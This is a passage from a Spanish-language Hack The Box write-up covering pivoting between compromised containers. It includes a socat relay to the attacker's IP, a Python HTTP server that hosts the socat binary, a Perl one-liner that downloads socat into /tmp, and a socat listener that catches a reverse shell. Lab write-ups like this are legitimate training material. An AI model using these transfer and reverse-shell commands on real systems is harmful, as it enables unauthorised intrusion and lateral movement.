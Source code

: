 ```bash
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2021/06/15 06:54:10 sys
drwxrwxrwt          4,096 2021/06/15 14:08:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
bash-4.3# 
```
Vale pues procedemos a hacer lo siguiente.

Debemos pasarnos el Binario de `SOCAT` para poder ponernos a la escucha en la ultima maquina que hemos comprometido, y como la maquina anda pelada de todo pero tiene `PERL`
Vamos a intentar hacer como un `wget` con `perl` :

Creamos otra regla en la maquina `Node-RED` con `SOCAT`:
```bash
tiramos de SOCAT  para ./socat TCP_LISTEN:6655,fork tcp:10.10.14.12:6666
```
Vamos a montarnos un servidor con `python3 -m http.server 6666` para compartir el binario `socat` a la maquina `www-data/redis` desde nuestro `kali`.
```bash
# python3 -m http.server 6666                                                                                                                                                                                 1 ⚙
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
2021-07-01 12:54:42 VERIFY OK: depth=1, C=UK, ST=City, L=London, O=HackTheBox, CN=HackTheBox CA, name=htb, emailAddress=info@hackthebox.eu
2021-07-01 12:54:42 VERIFY KU OK
2021-07-01 12:54:42 Validating certificate extended key usage
2021-07-01 12:54:42 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2021-07-01 12:54:42 VERIFY EKU OK
2021-07-01 12:54:42 VERIFY OK: depth=0, C=UK, ST=City, L=London, O=HackTheBox, CN=htb, name=htb, emailAddress=info@hackthebox.eu
2021-07-01 12:54:42 Outgoing Data Channel: Cipher 'AES-256-GCM' initialized with 256 bit key
2021-07-01 12:54:42 Incoming Data Channel: Cipher 'AES-256-GCM' initialized with 256 bit key
2021-07-01 12:54:42 Control Channel: TLSv1.2, cipher TLSv1.2 ECDHE-RSA-AES256-GCM-SHA384, 2048 bit RSA
10.10.10.94 - - [01/Jul/2021 13:11:04] "GET /socat HTTP/1.1" 200 -
```

Ahora para pasarnos el archivo socat a la maquina `www-data/redis (Hacemos como el wget pero con Perl)`:

En la Maquina WWW-data como www-data en /tmp/ : Ejecutamos este comando
```bash
perl -e 'use File::Fetch; my $url = "http://172.19.0.4:3322/socat"; my $ff= File::Fetch->new(uri=>$url); my $file = $ff->fetch() or die $ff->error;'
```
Para importarnos `“SOCAT”` y asi poder saltar a la ultima maquina y enviarnos la `R-shell` a nuestra maquina `WWW-data` para `recibir la conexion reversa con SOCAT`.
```bash
Nos ponemos a la escucha con Socat como si fuera un netcat
./socat TCP_LISTEN:9000 STDOUT
```
